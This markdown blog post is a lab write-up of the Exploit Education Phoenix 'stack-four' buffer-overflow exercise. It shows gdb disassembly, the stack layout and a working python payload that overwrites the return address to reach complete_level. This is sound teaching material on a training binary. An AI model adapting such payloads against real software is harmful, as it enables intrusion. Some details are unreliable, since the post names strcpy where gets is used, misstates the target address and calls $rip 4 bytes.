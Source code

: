 ```yaml
---
layout: post
title: Stack Four Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
comments: true
description: A comprehensive writeup that helps to understand Stack Four exercise stack-overflow vulnerability with learning resources.
---
```


### Previous Writeup: 

1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)

If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

### Quick Overview

Similar to Stack Two, Stack Four exercise motive is to smash the stack to modify other variables in the stack to a `hex value` and technically overwrite `function pointer` in the stack. Similar to `gets` in Stack Zero, `strcpy` function is unsafe that doesn't have bounds check, it accepts memory address to write but doesn't care about overwriting other declared function pointer in stack. If you take closer look at the buffer which isn't dynamically being allocated by `malloc` function, so probably the start_level function which contains both `char buffer[64]` and `return address` function pointer stays in same stackframe. This overwritten function pointer will be further used to invoke in later part of the program.
`
### Disassemble

Disassembling the code will get you overall idea behind the stack-four code, One can use `gdb ./stack-four` to start debugging it in runtime.

1. `gdb ./stack-four`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x000000000040066a <+0>:     push   rbp
   0x000000000040066b <+1>:     mov    rbp,rsp
   0x000000000040066e <+4>:     sub    rsp,0x10
   0x0000000000400672 <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x0000000000400675 <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000400679 <+15>:    mov    edi,0x400750
   0x000000000040067e <+20>:    call   0x400480 <puts@plt>
   0x0000000000400683 <+25>:    mov    eax,0x0
   0x0000000000400688 <+30>:    call   0x400635 <start_level>
   0x000000000040068d <+35>:    mov    eax,0x0
   0x0000000000400692 <+40>:    leave
   0x0000000000400693 <+41>:    ret
```

`> disassemble start_level`

```assembly
   0x0000000000400635 <+0>:     push   rbp
   0x0000000000400636 <+1>:     mov    rbp,rsp
   0x0000000000400639 <+4>:     sub    rsp,0x50
   0x000000000040063d <+8>:     lea    rax,[rbp-0x50]
   0x0000000000400641 <+12>:    mov    rdi,rax
   0x0000000000400644 <+15>:    call   0x400470 <gets@plt>
   0x0000000000400649 <+20>:    mov    rax,QWORD PTR [rbp+0x8]
   0x000000000040064d <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400651 <+28>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400655 <+32>:    mov    rsi,rax
   0x0000000000400658 <+35>:    mov    edi,0x400733
   0x000000000040065d <+40>:    mov    eax,0x0
   0x0000000000400662 <+45>:    call   0x400460 <printf@plt>
   0x0000000000400667 <+50>:    nop
   0x0000000000400668 <+51>:    leave
   0x0000000000400669 <+52>:    ret
```

If you carefully check the source, you might miss `complete_level` in the above disassembled code. You can go ahead and type `disassemble complete_level` in the gdb prompt,

```assembly
   0x000000000040061d <+0>:     push   rbp
   0x000000000040061e <+1>:     mov    rbp,rsp
   0x0000000000400621 <+4>:     mov    edi,0x4006f0
   0x0000000000400626 <+9>:     call   0x400480 <puts@plt>
   0x000000000040062b <+14>:    mov    edi,0x0
   0x0000000000400630 <+19>:    call   0x400490 <exit@plt>
```

Before taking a look at the code, if you disassembled the stack-four using gdb to view the assembly instruction, you may notice the puts, start_level, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-four, brought to you by https://exploit.education` message via Puts (aka printf) method
3. Invokes `start_level` function `0x400635`
4. Accepts user input via `gets` method with `buffer` memory address.
5. Invoke `__builtin_return_address` method to get the `rip` register address which is already stored in stack
6. Print the return address via `puts` method.

### Primary Goal

The primary goal of this exercise is to make you familiar to overwrite return address in the stack with your own return address to a function and therefore redirecting the program flow to achieve code execution. In the ideal exploit world, you may overwrite the return address and redirect to `system` function to achieve remote code execution. In this exercise, you might want to overwrite the return address stored in the `start_level` stackframe and redirect the program flow to `complete_level`. The return address is used by `$rip` register aka instruction pointer which is responsible for loading next instruction of the program.

### Memory Allocation

As you see that the `buffer` variable isn't dynamically allocated, they are allocated in the stack frame same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe660` and then `rsp` to `$rbp-0x10` (`0x7fffffffe650`) as expected the stack grows from top (higher memory address) to bottom (lower memory address). After series of steps, `start_level` is invoked pushing $rbp again to `0x7fffffffe640` and $rsp to `0x7fffffffe5f0`.

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-four-rbp.jpg)

You can see that `buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe5f0` and `$rip` register (4 bytes) at `rbp-0x10` i.e `0x7fffffffe650`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `$rip` aka return address stored in stack. If you play around with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x08` i.e `0x7fffffffe648`.

### Exploit

As previously discussed `buffer` and `$rip` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the $rip register (instruction pointer), but if you do the same with 88 characters + 4 character (actual $rip), you have succesfully overwritten `$rip` register. However, our challenge is to overwrite return address ($rip) with `complete_level` function memory address. So, How do I get the `complete_level` function loaded memory address? Simple, use gdb disassemble `disassemble complete_level` command and note down the starting `$rbp` address aka `0x4001d` (ignore the padding zeros).

If you try generating the payload simply  `(A * 88) + '\x40\x06\x1d'`, this would represent in the memory as `88 'A's & 0x40069d` 😵. Remember [Little Endianness](https://en.wikipedia.org/wiki/Endianness) ?, Yes Intel or AT&T syntax follows Little Endianness, so the representation should be in reverse order as `'A'*88 + '\x1d\x06\x40'`.

![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-four-gdb.jpg)

### Result

`> r <<< $(python -c "print('A'*88 + '\x1d\x06\x40')")` in gdb prompt.

```assembly
(gdb) r <<< $(python -c "print('A'*88 + '\x1d\x06\x40')")
Starting program: /opt/phoenix/amd64/stack-four <<< $(python -c "print('A'*88 + '\x1d\x06\x40')")
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
[Inferior 1 (process 317) exited normally]
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/buffer-overflow-meme-2.jfif)

### Source and Reference:

1. Stack Four Exercise: [Exploit Education](https://exploit.education/phoenix/stack-four/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
